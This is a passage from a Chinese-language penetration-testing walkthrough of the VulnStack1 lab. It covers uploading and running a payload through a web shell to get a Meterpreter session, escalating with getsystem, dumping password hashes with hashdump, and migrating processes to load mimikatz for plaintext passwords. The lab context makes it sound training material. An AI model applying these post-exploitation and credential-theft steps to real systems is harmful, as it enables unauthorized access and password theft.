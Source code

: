 利用蚁剑把 run2.exe 传上去 web 服务器
![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_11.png)

然后通过虚拟终端执行 run2.exe 

使用```sessions -i```可以看到成功建立了会话

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_12.png)

### 进行提权

进入第 1 个会话
```shell
sessions -i 1
```

使用命令 ```getsystem```，拿到 system 权限

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_13.png)

### 获取账号和 hash 密码

导入账号，密码hash值
```shell
run hashdump
```

![img](https://testingcf.jsdelivr.net/gh/black-and-while/save_image/penetration_test/VulnStack1/VulnStack1_14.png)

Windows系统下的hash密码格式为：
用户名称:RID:LM-HASH值:NT-HASH值

### 获取明文密码

（1）尝试加载 mimikatz 模块，加载模块前需要先将 meterpreter 迁移到 64 位的进程（也就是把当前的进程转移到一个 64 位进程上面），该进程也需要是 system 权限，操作如下：
```shell
ps
migrate PID
```

使用 ```ps``` 可以查看活跃进程

```shell
PID   PPID  Name               Arch  Session  User                          Path
---   ----  ----               ----  -------  ----                          ----
0     0     [System Process]
4     0     System             x64   0
252   4     smss.exe           x64   0        NT AUTHORITY\SYSTEM           \SystemRoot\System32\smss.exe
296   488   svchost.exe        x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
304   3992  cmd.exe            x86   1        GOD\Administrator             C:\Windows\SysWOW64\cmd.exe
316   1184  run2.exe           x86   1        GOD\Administrator             C:\phpStudy\WWW\run2.exe
************************************************************************************************************
************************************************************************************************************
944   488   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\svchost.exe
956   3720  run2.exe           x86   1        GOD\Administrator             C:\phpStudy\WWW\run2.exe
964   2776  cmd.exe            x64   1        GOD\Administrator             C:\Windows\system32\cmd.exe
```